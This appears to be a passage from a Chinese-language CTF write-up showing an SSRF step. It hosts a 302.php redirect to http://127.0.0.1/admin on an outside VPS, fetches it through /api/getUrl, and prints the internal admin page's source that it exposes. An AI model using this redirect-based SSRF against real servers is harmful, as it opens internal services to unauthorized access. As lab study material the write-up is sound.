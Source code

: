 但是此处用带参数的始终不能正常跳转，可能是axios代理的原因。

（学弟直接用Location成了，amazing）

302.php内容

```php
<?php
header("Location: http://127.0.0.1/admin");
?>
```

`/api/getUrl?url=http://vpsip/302.php`



这里直接访问admin是因为dirsearch扫描到3000端口的admin目录

![image-20210328130144488](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210328130144488.png)

但是重定向到/admin。



![image-20210328135622676](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210328135622676.png)


两者都尝试后发现直接访问80端口的/admin可以读取到目录下的index.html

所以获取http://127.0.0.1/admin


![image-20210328135312565](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210328135312565.png)



读取到admin.html源码

```html
<html>
<head>
<title>System information</title>
</head>
<body>
<h2>Get OS Information</h2>
<button onclick="retrieveOSInfo();false;">Retrieve</button>

<h2>Get service info</h2>
<input type="text" id="serviceName" value="nginx">
<button onclick="retrieveServiceInfo();false;">Retrieve</button>

<h2>Output</h2>
<textarea id="output"></textarea>
</body>
<script>
function retrieveOSInfo() {
fetch('/api/admin/os_info')
.then(response => {
                    if (response.status == 200) {
                        return response.json();
                    }
                    throw Error('Server is unavailable');
                },
                failResponse => {
                    printOutput('Server is unavailable');
                })
                .then(result => {
                    printApiResult(result);
                },
                errorMsg => {
                    printOutput(errorMsg);
                });
```